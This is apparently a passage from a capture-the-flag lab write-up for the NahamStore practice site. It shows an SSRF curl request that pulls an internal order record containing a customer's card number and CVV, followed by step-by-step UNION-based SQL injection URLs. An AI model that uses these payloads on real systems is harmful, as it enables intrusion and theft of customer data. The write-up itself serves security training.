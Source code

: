 		![14ssrf2](imgs/14ssrf2.png)
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#" http://nahamstore.thm/stockcheck/`
		```
		{"id":"5ae19241b4b55a360e677fdd9084c21c","customer":{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","address":{"line_1":"3999  Clay Lick Road","city":"Englewood","state":"Colorado","zipcode":"80112"},"items":[{"name":"Hoodie + Tee","cost":"25.00"}],"payment":{"type":"MasterCard","number":"5190216301622131","expires":"11\/2023","CVV2":"223"}}}
		```
		![14ssrf3](imgs/14ssrf3.png)

	- Get the Credit Card Number For Jimmy Jones: `5190216301622131`
	
---

## SQL Injection (Task 12)

SQL Injection 1: GET parameter in the URL
- Open Firefox browser.
- Identify: 
	- `http://nahamstore.thm/product?id=1%27`
		```
		You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
		```
	- `http://nahamstore.thm/product?id=1%20union%20all%20select%201`
		```
		The used SELECT statements have a different number of columns
		```
	- `http://nahamstore.thm/product?id=1%20union%20all%20select%201,2,3,4,5`
		- This is just a normal page
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,2,3,4,5`
		- This shows updated info with the parameter number 2,3,4
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,@@version,3,4,5`
		- This shows the version of sql database